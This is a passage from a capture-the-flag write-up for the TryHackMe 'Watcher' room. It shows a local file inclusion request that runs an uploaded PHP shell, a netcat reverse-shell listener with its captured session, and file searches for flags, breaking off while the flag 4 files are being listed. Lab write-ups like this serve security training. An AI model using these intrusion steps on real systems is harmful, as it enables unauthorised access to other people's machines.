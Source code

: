 Start a listener on the local machine listening on the specified port in the reverse shell → Call (Execute) the shell through the path that declared inside `secret_file_do_not_read.txt`:

![Untitled](/assets/Watcher%20images/Untitled%203.png)

```
┌──(kali㉿kali)-[~/TryHackMe/Watcher]
└─$ curl http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.204.165] 48746
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:35:12 up 30 min,  0 users,  load average: 0.00, 0.03, 0.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Locate the **flag 3** by using `find` command and get the flag:

```
$ find / -name "flag_3.txt" 2>/dev/null
/var/www/html/more_secrets_a9f10a/flag_3.txt
$ cat /var/www/html/more_secrets_a9f10a/flag_3.txt
FLAG{REDACTED}
```

## Flag 4

Navigate to `/home/` directory and locate all the **flags**:

```
$ cd /home/
$ ls -l
total 16
dr-xr-xr-x 3 root root 4096 Dec  3  2020 ftpuser
drwxr-xr-x 6 mat  mat  4096 Dec  3  2020 mat
drwxr-xr-x 6 toby toby 4096 Dec 12  2020 toby
drwxr-xr-x 5 will will 4096 Dec  3  2020 will
$ ls -l * | grep "flag"
-rw------- 1 mat  mat      37 Dec  3  2020 flag_5.txt
-rw------- 1 toby toby   21 Dec  3  2020 flag_4.txt
-rw------- 1 will will 41 Dec  3  2020 flag_6.txt
```
